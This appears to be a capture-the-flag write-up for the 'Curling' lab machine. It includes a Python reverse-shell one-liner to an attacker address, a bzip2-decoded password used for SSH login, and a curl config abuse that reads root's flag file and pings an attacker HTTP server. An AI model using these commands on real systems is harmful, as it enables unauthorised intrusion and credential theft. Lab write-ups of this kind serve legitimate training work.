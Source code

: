 Spawning a real shell :)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.133",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Decode the bzip2 file `/home/floris/password_backup` by tweaking it a bit following this [procedure](https://pymotw.com/2/bz2/)

    # First "hexlify" it (simply make use a text editor...)
    425a6839314159265359819bbb48000017fffffc41cf05f95029617661cc3a344edccccc6e11540023ab4025f802196020180ca000921c7a8340000000000000068069883468646989a6d439ea68c800000f51a00064681a069ea190000000346900078135016e18c2d78c98874a13a00868ae19c02ab0c17d792ec23c7e9d78f53e0809f0735654c27a4886dfa2e931c856921b122133856046a2ddc1730d22b9966ed40cdb87376a3a58ea64115290ad6bb12f081381208205a5f52970c50337dbab3be000ef85f439a414885018438259be5009861e4842d513ea1c2a098c8a47ab1d20a7554072ff177245385090819bbb48

    # Unhexlify it

    # Play with bzip2

    # Cat new.unp.out
    password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll

Great! Let's try these passwrods with ssh.

    ssh floris@$IP
    password: 5d<wdCbdZu)|hChXll
    floris@curling:


PrivEsc
-------

I didn't get a reverse shell, but I get the flag. Don't know if there's a way to get a full control to this machine with a root shell, but this box was odd since every user has access to what other are doing. In other term, I only enjoyed the bzip2 part. But anyway let's dive into it.

```bash
cat /home/floris/admin_area
url = "http://127.0.0.1"
```

Given this output, you can relate to curl `--config` flag. Thus, you can rewrite that file as follow:


```bash
# To get "ping" when the file has been fetched
local$ python -m SimpleHTTPServer 1234
```

```bash
# On the remote  server
url = "file:/root/root.txt"
-o /tmp/root.txt
url = "http://<local_IP>:1234"
```

When you receive a GET request from the RHOST you know you can read the new `root.txt` file located in `/tmp`. w00t! ;)
